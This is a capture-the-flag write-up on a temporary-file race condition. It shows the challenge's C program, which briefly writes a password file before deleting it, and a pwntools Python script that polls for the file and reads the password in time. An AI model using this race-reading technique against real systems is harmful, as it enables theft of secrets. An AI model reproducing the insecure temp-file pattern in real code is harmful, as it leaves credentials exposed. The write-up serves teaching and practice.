

# Race Condition Exploit to Capture Password

## Challenge Overview
**Challenge Name**: Temporary File Race Condition  
**Category**: Binary Exploitation / Race Condition  
**Difficulty**: Easy-Medium  
**Description**: A program that briefly creates a temporary file containing the password and deletes it after 250ms. The goal is to capture the password during this narrow window.

## Understanding the Vulnerability

### Source Code Analysis

```c
// gcc -o chall source.c -no-pie -fno-stack-protector -z execstack -z norelro -Wl,-z,noseparate-code -static

#include <stdio.h>
#include <string.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>

#define PASSWORD ".passwd"
#define TMP_FILE "tmp_file.txt"

int main(void)
{
  int fd_tmp, fd_rd;
  char ch;


  if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) 
    {
      printf("[-] Don't use a debugguer !\n");
      abort();
    }
  if((fd_tmp = open(TMP_FILE, O_WRONLY | O_CREAT, 0444)) == -1)
    {
      perror("[-] Can't create tmp file ");
      goto end;
    }
   
  if((fd_rd = open(PASSWORD, O_RDONLY)) == -1)
    {
      perror("[-] Can't open file ");+
      goto end;
    }
   
  while(read(fd_rd, &ch, 1) == 1)
    {
      write(fd_tmp, &ch, 1);
    }
  close(fd_rd);
  close(fd_tmp);
  usleep(250000);
end:
  unlink(TMP_FILE);
   
  return 0;
}
```


The vulnerable program (`chall`):
1. **Anti-debugging Protection**: Uses `ptrace(PTRACE_TRACEME)` to detect debuggers




2. **File Operations**:
   - Creates a temporary file `tmp_file.txt`
   - Copies content from `.passwd` character by character
   - Waits 250ms (`usleep(250000)`)
   - Deletes the file (`unlink(TMP_FILE)`)
3. **The Race Condition**: The file exists for only 250ms, creating a narrow window for exploitation

### Key Vulnerability
The program:
- Creates sensitive data in a temporary file
- Provides a predictable time window (250ms) before deletion
- Uses sequential character-by-character writing, making the file readable before completion

## Exploit Development

### Exploit Strategy
The solution uses a Python script with `pwntools` to:
1. **Monitor File Creation**: Continuously check for `tmp_file.txt`
2. **Timing Precision**: Wait 50ms after detection to ensure complete file writing
3. **Rapid Reading**: Multiple read attempts to capture content before deletion

## The Exploit Code

```python
#!/usr/bin/env python3
from pwn import *
import time
import os

def main():
    # Clean up any existing file
    if os.path.exists("tmp_file.txt"):
        os.remove("tmp_file.txt")
    
    # Start the process
    p = process('./chall')
    
    # Ultra-aggressive polling loop
    start_time = time.time()
    password = None
    
    while time.time() - start_time < 0.5: # Purpose: Creates a loop that runs for 500ms (longer than the 250ms window) to continuously check for the file.
        try:
            # Direct file check with immediate read attempt
            if os.path.isfile("tmp_file.txt"):
                # Multiple rapid read attempts
                time.sleep(0.05)  # 50ms delay to ensure complete write
                for _ in range(30):
                    try:
                        with open("tmp_file.txt", "rb") as f:   # "rb" (binary mode) is faster than text mode
                            content = f.read().decode('utf-8', errors='ignore').strip()
                            if content:
                                password = content
                                break
                    except:
                        pass
                if password:
                    break
        except:
            pass
    
    if password:
        log.success(f"Password: {password}")
    else:
        log.warning("Failed to capture password")
    
    p.close()

if __name__ == "__main__":
    main()
```


### Why This Exploit Works

1. **File Detection**: Continuous polling detects the file immediately upon creation
2. **Writing Completion**: The 50ms delay allows the character-by-character write operation to complete
3. **Multiple Read Attempts**: 30 rapid attempts handle cases where the file might be deleted during read operations
4. **Binary Mode Reading**: Using `"rb"` mode is faster and more reliable than text mode
5. **Adequate Timeout**: 500ms monitoring covers the entire vulnerable window with buffer
